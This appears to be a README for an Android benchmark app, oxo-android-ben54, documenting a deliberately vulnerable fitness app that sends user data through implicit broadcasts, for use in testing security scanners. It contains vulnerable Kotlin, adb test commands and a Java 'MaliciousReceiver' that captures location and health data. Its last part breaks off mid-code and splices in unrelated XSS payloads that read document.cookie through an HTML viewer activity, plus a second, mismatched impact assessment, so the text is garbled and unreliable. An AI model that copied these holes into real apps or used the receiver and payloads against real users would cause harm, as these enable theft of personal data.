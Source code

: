 # oxo-android-ben54: Implicit Broadcast with Sensitive Information

## Vulnerability Overview

Implicit Broadcast with Sensitive Information occurs when Android applications send broadcast intents containing sensitive data without restricting which applications can receive them. This vulnerability allows any app with a matching BroadcastReceiver to intercept and access confidential information that should remain within the originating app or trusted components.

## Attack Vector: Fitness and Device Data Exposure

**Brief Explanation**: A fitness tracking app that broadcasts workout data, device information, and user profile data through implicit intents that can be intercepted by any app with matching receivers.

**Key Characteristics:**
- Broadcasts workout data (heart rate, calories, location, user profiles)
- Includes Bluetooth device information (MAC addresses, device names, battery levels)
- Sends user account information (email, account type, user ID)
- No permission requirements for receivers

**Vulnerable Code Pattern:**
```kotlin
// Broadcasting workout data without restrictions
val workoutIntent = Intent("com.fittracker.WORKOUT_UPDATE")
workoutIntent.putExtra("user_id", "user_12345") 
workoutIntent.putExtra("heart_rate", currentHeartRate)
workoutIntent.putExtra("calories_burned", caloriesBurned)
workoutIntent.putExtra("location_lat", 40.7128)
workoutIntent.putExtra("location_lon", -74.0060)
sendBroadcast(workoutIntent)  // VULNERABLE - Implicit broadcast!

// Broadcasting device information
val deviceIntent = Intent("com.fittracker.DEVICE_CONNECTED")
deviceIntent.putExtra("device_address", bluetoothDevice.address)
deviceIntent.putExtra("device_name", bluetoothDevice.name)
deviceIntent.putExtra("user_profile", "John Doe, Premium Member")
sendBroadcast(deviceIntent)  // VULNERABLE - No permission required!
```

## Testing

### Step 1: Install and Launch FitTracker Pro
```bash
# Install the vulnerable fitness app
adb install -r /path/to/oxo-android-ben54/src/app/build/outputs/apk/debug/app-debug.apk

# Launch the app
adb shell am start -n co.ostorlab.myapplication/.MainActivity
```

### Step 2: Trigger Vulnerable Broadcasts
```bash
# Method 1: Simulate workout data broadcasts
adb shell am broadcast -a "com.fittracker.WORKOUT_STARTED" \
  --es user_id "user_12345" \
  --es workout_type "Running" \
  --el start_time 1724770000000 \
  --es user_profile "John Doe, Age: 28, Weight: 75kg"

adb shell am broadcast -a "com.fittracker.WORKOUT_UPDATE" \
  --es user_id "user_12345" \
  --ei heart_rate 145 \
  --ei calories_burned 320 \
  --ef distance_km 2.5 \
  --es workout_type "Running" \
  --el timestamp $(date +%s)000 \
  --ed location_lat 40.7128 \
  --ed location_lon -74.0060

# Method 2: Simulate device connection broadcasts  
adb shell am broadcast -a "com.fittracker.DEVICE_CONNECTED" \
  --es device_name "FitBand Pro" \
  --es device_address "A4:B5:C6:D7:E8:F9" \
  --es device_type "Fitness Tracker" \
  --ei battery_level 85 \
  --es user_profile "John Doe, Premium Member"

# Method 3: Simulate data synchronization broadcasts
adb shell am broadcast -a "com.fittracker.SYNC_COMPLETE" \
  --es user_id "user_12345" \
  --ei devices_synced 3 \
  --es user_email "john.doe@email.com" \
  --es account_type "Premium"
```

### Step 3: Verify Broadcast Interception
```bash
# Check broadcast history for intercepted data
adb shell dumpsys activity broadcasts | sed -n '/Historical broadcasts summary/,/^$/p' | grep -A 5 "com.fittracker"
```

### Expected Results:
```
Historical broadcasts summary [modern]:
#0: act=com.fittracker.SYNC_COMPLETE flg=0x400010 (has extras)
    extras: Bundle[{user_id=user_12345, devices_synced=3, user_email=john.doe@email.com, account_type=Premium}]

#1: act=com.fittracker.DEVICE_CONNECTED flg=0x400010 (has extras) 
    extras: Bundle[{device_name=FitBand Pro, device_address=A4:B5:C6:D7:E8:F9, device_type=Fitness Tracker, battery_level=85, user_profile=John Doe, Premium Member}]

#2: act=com.fittracker.WORKOUT_STARTED flg=0x400010 (has extras)
    extras: Bundle[{start_time=1724770000000, workout_type=Running, user_id=user_12345, user_profile=John Doe, Age: 28, Weight: 75kg}]
```

## Impact Assessment
- **Confidentiality**: High - Exposes sensitive user fitness data, device information, and personal profiles
- **Integrity**: Low - Data interception doesn't modify original information  
- **Availability**: Low - No direct impact on system availability
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Communication
- **CWE**: CWE-200 (Information Exposure), CWE-926 (Improper Export of Android Application Components)

## Malicious Receiver Example

An attacker app can intercept these broadcasts with:

```xml
<receiver android:name=".MaliciousReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.fittracker.WORKOUT_STARTED" />
        <action android:name="com.fittracker.WORKOUT_UPDATE" />
        <action android:name="com.fittracker.DEVICE_CONNECTED" />
        <action android:name="com.fittracker.SYNC_COMPLETE" />
    </intent-filter>
</receiver>
```

```java
public class MaliciousReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        String action = intent.getAction();
        
        if ("com.fittracker.WORKOUT_UPDATE".equals(action)) {
            String userId = intent.getStringExtra("user_id");
            int heartRate = intent.getIntExtra("heart_rate", 0);
            double lat = intent.getDoubleExtra("location_lat", 0.0);
            double lon = intent.getDoubleExtra("location_lon", 0.0);
            // Attacker now has location and health data
        }
        
        if ("com.fittracker.DEVICE_CONNECTED".equals(action)) {
            String deviceAddress = intent.getStringExtra("device_address");
            String deviceName = intent.getStringExtra("device_name");
            // Attacker now has Bluetooth device information
        }
    }
}

# Image with onerror handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<img src='invalid' onerror='alert(\"Cookie: \" + document.cookie)' style='display:none'><p>Loading article...</p>"

# Hover-triggered attack
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<div onmouseover='alert(\"Data stolen on hover!\")' style='padding:20px; background:#f0f0f0'>Hover over this text to read more</div>"

# Input field with onchange handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<p>Enter your email for newsletter:</p><input type='email' onchange='alert(\"Email stolen: \" + this.value)' placeholder='your@email.com'>"

# Link with onclick handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<a href='#' onclick='alert(\"User clicked malicious link!\"); return false;'>Click here for exclusive content</a>"
```

**Difficulty**: Easy

## Impact Assessment

- **Confidentiality**: High - Can access sensitive user input and app data
- **Integrity**: High - Can manipulate user interactions and steal credentials
- **Availability**: Medium - Can disrupt normal app functionality
- **OWASP Mobile Top 10**: M7 - Client Code Quality
- **CWE**: CWE-79 (Cross-site Scripting), CWE-20 (Improper Input Validation)
